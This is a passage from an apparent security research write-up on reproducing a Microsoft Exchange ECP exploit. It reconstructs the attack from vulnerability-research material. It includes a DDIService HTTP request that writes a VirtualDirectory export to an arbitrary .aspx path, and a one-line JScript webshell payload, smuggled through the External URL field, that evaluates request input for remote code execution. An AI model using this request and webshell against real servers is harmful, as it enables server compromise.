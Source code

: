 _ECP user interface showing the configuration options for ResetVirtualDirectory._

  
By submitting a sample ResetVirtualDirectory request, we observed that the Exchange server wrote a pretty-printed configuration of the VirtualDirectory to the specified path, removed the VirtualDirectory, and recreated it. This configuration file contained several properties from the directory and could be written to any directory on the system with an arbitrary extension. A screenshot of the request and resulting file are shown below.

Example HTTP request to the DDIService to reset the OAB VirtualDirectory:  

```
		POST /ecp/DDI/DDIService.svc/SetObject?schema=ResetOABVirtualDirectory&msExchEcpCanary={csrf} HTTP/1.1Host: localhostCookie: msExchEcpCanary={csrf};Content-Type: application/json{  "identity": {    "__type": "Identity:ECP",    "DisplayName": "OAB (Default Web Site)",    "RawIdentity": "cf64594f-d739-44a4-aa70-3fbd158625e2"  },  "properties": {    "Parameters": {      "__type": "JsonDictionaryOfanyType:#Microsoft.Exchange.Management.ControlPanel",      "FilePathName": "C:\\VirtualDirectory.aspx"    }  }}	

```

  

![](https://www.praetorian.com/wp-content/uploads/2021/03/DDIService-export-file-1024x860.png)

_File exported by the DDIService showing all properties of the VirtualDirectory._

![](https://www.praetorian.com/wp-content/uploads/2021/03/virtual-directory-image-1-1024x762.png)

_ECP web UI showing editable parameters for a VirtualDirectory._

  
The following parameters were exposed in the UI for editing a VirtualDirectory. Notably, the Internal URL and External URL were exposed in the UI, described in the XAML as parameters, and written to the file at our arbitrary path. This combination of factors allowed an attacker controlled input to reach an arbitrary path, which is the necessary primitive to enable a webshell.

After some experimentation, we determined that the Internal/External URL fields was partially validated by the server. Namely, the server validated the URI scheme, hostname, and imposed a maximum length of 256 bytes. Additionally, the server “percent encoded” any percent signs in the payload (e.g. “%” become “%25”). As a result, a classic ASPX code block like `<% code %>` was transformed into `<%25 code %25>` which is invalid. However, other metacharacters (e.g. < and>) were not encoded, allowing injection of a URL like the following:  

```
		http://o/#<script language="JScript" runat="server">function Page_Load(){eval(Request["mlwqloai"],"unsafe");}</script>	

```

After resetting the VirtualDirectory, this URL was embedded in the export and saved to the path of our choosing, granting remote code execution on the Exchange server.

![](https://www.praetorian.com/wp-content/uploads/2021/03/webshell-commands-compromised-server-1024x675.png)

_Using webshell to execute commands on compromised Exchange server._

### Leaking the Backend + Domain
